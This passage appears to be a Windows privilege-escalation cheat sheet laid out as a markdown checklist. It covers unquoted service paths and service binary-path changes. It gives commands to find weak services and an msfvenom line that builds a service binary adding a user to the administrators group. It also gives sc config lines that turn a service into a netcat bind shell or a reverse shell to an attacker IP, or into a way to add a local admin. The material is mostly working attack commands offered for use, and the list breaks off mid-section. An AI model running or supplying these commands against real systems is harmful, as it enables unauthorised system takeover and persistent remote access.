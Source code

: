     * [ ] Unquoted Service Path



    ```
     wmic service get name,displayname,pathname,startmode |findstr /i "Auto" | findstr /i /v "C:\Windows\" |findstr /i /v ""
     wmic service get name,displayname,pathname,startmode | findstr /i /v "C:\Windows\system32\" |findstr /i /v "" #Not only auto services

     for /f "tokens=2" %%n in ('sc query state^= all^| findstr SERVICE_NAME') do (
     	for /f "delims=: tokens=1*" %%r in ('sc qc "%%~n" ^| findstr BINARY_PATH_NAME ^| findstr /i /v /l /c:"c:\windows\system32" ^| findstr /v /c:""""') do (
     		echo %%~s | findstr /r /c:"[a-Z][ ][a-Z]" >nul 2>&1 && (echo %%n && echo %%~s && icacls %%s | findstr /i "(F) (M) (W) :\" | findstr /i ":\\ everyone authenticated users todos %username%") && echo.
     	)
     )
     
     gwmi -class Win32_Service -Property Name, DisplayName, PathName, StartMode | Where {$_.StartMode -eq "Auto" -and $_.PathName -notlike "C:\Windows*" -and $_.PathName -notlike '*'} | select PathName,DisplayName,Name
     
     # find them using msf 
     exploit/windows/local/trusted_service_path
     
     # generate service binary with msfvenom
     msfvenom -p windows/exec CMD="net localgroup administrators username /add" -f exe-service -o service.exe
    ```

    * [ ] Change service binary path



    ```
     # if the group "Authenticated users" has SERVICE_ALL_ACCESS
     # it can modify the binary path
     
     # bind shell
     sc config <Service_Name> binpath= "C:\nc.exe -nv 127.0.0.1 9988 -e C:\WINDOWS\System32\cmd.exe"
     
     # reverse shell
     sc config <Service_Name> binpath= "cmd \c C:\Users\nc.exe <attacker-ip> 4444 -e cmd.exe"
     
     # add user to local admin group
     sc config <Service_Name> binpath= "net localgroup administrators username /add"
     